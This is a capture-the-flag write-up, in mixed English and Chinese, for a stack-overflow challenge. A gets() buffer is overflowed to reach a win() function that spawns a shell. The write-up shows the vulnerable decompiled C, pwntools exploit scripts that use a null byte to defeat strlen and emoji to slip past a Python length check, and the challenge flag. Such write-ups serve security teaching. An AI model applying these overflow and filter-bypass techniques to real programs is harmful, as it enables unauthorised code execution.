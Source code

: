 # 1.0 Challenge
1. strlen -> /x00 to stop the checking
2. python wrapper only 0xff -> can use emoji in python on 1 length, but for c is 4 bytes

# 2.0 Analysis
this is a beginner and advanced challenge for me 
the source code very simple 
I even though I can finish it very fast but NOT 
this is trap shit 

```c
int main(void)
{
  size_t input_len;
  char buffer [259];
  char local_15;
  int input_len_2;
  ulong i;
  
  gets(buffer);
  input_len = strlen(buffer);
  input_len_2 = (int)input_len;
  for (i = 0; i < (ulong)(long)(input_len_2 / 2); i = i + 1) {
    local_15 = buffer[(long)(input_len_2 + -1) - i];
    buffer[(long)(input_len_2 + -1) - i] = buffer[i];
    buffer[i] = local_15;
  }
  puts("Reversed string:");
  puts(buffer);
  return 0;
}

void win(void)
{
  system("/bin/sh");
  return;
}
```
python wrapper
```python
BINARY = "./chall"
MAX_LEN = 0xff

# Get input from user
payload = input(f"Enter your input (max {MAX_LEN} bytes): ")
if len(payload) > MAX_LEN:
    print("[-] Input too long!")
    sys.exit(1)
```

needed ROP
```
ret = 0x000000000040101a
win = 0x0000000000401262
```

# 3.0 Solution
## 3.1 OFFSET
ok 我们第一个要想的问题是 offset 
![[Pasted image 20250714170240.png]]
我一开始以为是直接0x110+8 + win 然后发现不work ？？？？？
0x118 = 280

如果不成功马上 请想起来 有ret alignment !!!!!
so 280 + ret + win
然后还是不能 .... 

## 3.2 STRLEN
这个时候想一下 为什么他没有直接断掉
so 要add \x00 null terminator
可是也要算好整个offset 
`[\x00 + offset] 这边只能是280 + ret 8 + win 8`
```python
rop = ROP(elf)
offset = 280+8-1-8
binary = b'\x00'
binary += b"a"*(offset)
binary += p64(rop.ret.address)
print("length",len(binary))
binary += p64(elf.sym.win)
p.sendline(binary)
p.interactive()
```

OK local pass

## 3.3 len(payload) > FF
看python 只能ff 如果直接pass 一定超过 因为我的整个payload 288 + 8
所以直接把offset 改成 unicode 就不会被 python check 
😎 python len: 1 c strlen: 4
```python
rop = ROP(elf)
offset = 280+8-1-8
binary = b'\x00'
binary += "😃".encode()* ((offset)//4)
binary += b'aaa' # for alignment 
binary += p64(rop.ret.address)
print("length",len(binary))
binary += p64(elf.sym.win)
p.sendline(binary)
p.interactive()
```

## 3.4 FULL SCRIPT
![[c1_3.py]]

# 4.0 FLAG 
```
L3AK{6375_15_4pp4r3n7ly_n3v3r_54f3}
```